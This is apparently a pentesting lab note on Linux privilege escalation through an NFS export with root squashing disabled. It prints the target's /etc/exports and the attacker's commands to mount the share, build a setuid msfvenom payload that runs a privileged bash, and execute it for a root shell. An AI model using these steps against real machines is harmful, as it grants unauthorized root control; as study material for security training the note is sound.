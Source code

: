 # NFS

- Files created via NFS inherit the remote User's ID.
- If the user is root, and root squashing is enabled, the ID will instead be set to the "no body" user.
```
user@debian:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)
```
- You may note that the tmp file system has root squashing disabled. And therefore we can exploit this.
- On your kali box
```
mkdir -p /tmp/nfs

mount -o version=2 10.10.90.210:/tmp /tmp/nfs

msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

chmod +xs /tmp/nfs/shell.elf


``` 
- back on the debian machine you can execute /tmp/shell.elf & it will run as the root user to give you the shell
